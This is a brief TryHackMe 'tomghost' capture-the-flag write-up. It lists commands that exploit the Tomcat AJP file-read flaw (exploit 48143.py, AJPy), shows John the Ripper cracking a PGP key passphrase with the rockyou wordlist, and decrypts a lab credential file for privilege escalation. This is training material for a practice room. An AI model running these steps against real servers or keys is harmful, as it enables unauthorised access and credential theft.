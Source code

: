 # [tomghost writeup](https://www.tryhackme.com/room/tomghost)

### Searchsploit
`searchsploit ajp`
`python 48143.py -f /WEB-INF/web.xml $ip` or with specific port `python 48143.py -p $port -f /WEB-INF/web.xml $ip`

### Or AJPy
`python tomcat.py read_file /WEB-INF/web.xml $ip`

### Cracking PGP symmetrically encrypted files with JtR 
https://www.openwall.com/lists/john-users/2015/11/17/1

```
❯ john hash --wordlist=/opt/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thisIsThePhaseForTheOtherFile        (tryhackme)
1g 0:00:00:00 DONE (2021-05-30 21:30) 25.00g/s 26800p/s 26800c/s 26800C/s theresa..thisIsThePhaseForTheOtherFile
Use the "--show" option to display all of the cracked passwords reliably
Session completed
❯ john hash --show
tryhackme:thisIsThePhaseForTheOtherFile:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc

1 password hash cracked, 0 left
```

### Use the phase to finish the horizontal privilege escalation
```
skyfuck@ubuntu:~$ gpg --import tryhackme.asc
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:plainTextPassword
```